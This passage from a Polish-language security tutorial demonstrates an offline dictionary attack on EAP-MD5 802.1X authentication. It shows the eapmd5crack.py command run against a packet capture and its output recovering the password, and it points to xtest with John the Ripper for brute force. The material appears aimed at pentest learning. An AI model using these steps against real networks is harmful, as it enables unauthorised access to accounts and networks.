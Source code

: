     ![](../../../.gitbook/assets/7daff03c-3d60-400f-9109-4715634309c3/e06151b0.jpg)


5. W kontekście ataku na EAP-MD5 najczęściej wymieniane są 2 narzędzia:

    -   [eapmd5crack.py](http://ptscripts.googlecode.com/svn/trunk/eapmd5crack.py) -- skrypt napisany w pythonie, wykorzystujący bibliotekę Scapy (którą musimy zainstalować, najczęściej jest to systemowa paczka nazwana jako python-scapy),
    -   [xtest](http://sourceforge.net/projects/xtest/) -- suplikant do testowania 802.1X.

Tu zdecydowałem się użyć skryptu napisanego w pythonie.

Należy mu podać plik *.pcap z komunikacją bezpośrednio w protokole EAP (nie obsługuje komunikacji EAP zapakowanej w protokół RADIUS) oraz słownik. Uruchomienie w moim przypadku wygląda następująco:

```console
root@debian:~/freeradius$ ./eapmd5crack.py wifi.pcap ./dict
WARNING: Failed to execute tcpdump. Check it is installed and in the PATH
[-] Reading capture...
[-] Searching for EAP-MD5 authentication exchange...
[-] EAP authentication exchange found.
[-] Message ID: 2
[-] Challenge: 954fc4fc6d86fc4fdc551a3686216eb5
[-] Needed Response: 00139edb1242243898006e5eebc978b2
Would you like to crack this exchange? [Y/n]: y
[-] Password found: testpass
Attempted 3 passwords in 0.00 seconds. [22919 p/s]
```

Widać wyraźnie, że w słowniku występowało użyte hasło i atak się powiódł.

Osoby zainteresowane przeprowadzeniem ataku siłowego polegającego na sprawdzaniu wszystkich kombinacji, a nie tylko fraz znajdujących się w słowniku, powinny zainteresować się programem xtest i możliwością połączenia go z programem John the Ripper. Wymaga to niewielkiej modyfikacji kodu xtest'a, lecz jest ona bardzo prosta ([więcej szczegółów](http://pauldotcom.com/2011/04/eap-md5-offline-password-attac.html)).
